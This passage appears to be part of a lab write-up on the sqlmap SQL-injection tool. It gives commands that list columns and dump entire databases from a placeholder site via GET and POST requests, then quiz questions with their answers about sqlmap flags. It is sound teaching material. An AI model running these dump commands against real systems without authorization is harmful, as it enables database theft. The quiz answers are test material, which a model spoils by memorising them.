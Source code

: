 `sqlmap -u https://testsite.com/page.php?id=7 -D blood -T blood_db --columns`

**`sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> -T <table_name> --columns`**

**Using POST based Method**

`sqlmap -r req.txt -D blood -T blood_db --columns`

**`sqlmap -r req.txt -D <database_name> -T <table_name> --columns`**

```php
sqlmap -r req.txt -D blood -T blood_db --columns
```

Or we can simply dump all the available databases and tables using the following commands.  

  
**Using GET based Method**

`sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --dump-all`  
  
`sqlmap -u https://testsite.com/page.php?id=7 -D blood --dump-all`  

  
**Using POST based Method**

`sqlmap -r req.txt -D <database_name> --dump-all`  
  
`sqlmap -r req.txt-p  -D <database_name> --dump-all`

---

_Answer the questions below

_Which flag or option will allow you to add a URL to the command?

**-u**

_Which flag would you use to add data to a POST request?

**--data**

_There are two parameters: username and password. How would you tell sqlmap to use the username parameter for the attack?

**-p username**

_Which flag would you use to show the advanced help menu?

**-hh**

_Which flag allows you to retrieve everything?

**-a**

_Which flag allows you to select the database name?

**-D**

_Which flag would you use to retrieve database tables?

**--tables**

_Which flag allows you to retrieve a table’s columns?  

**--columns**
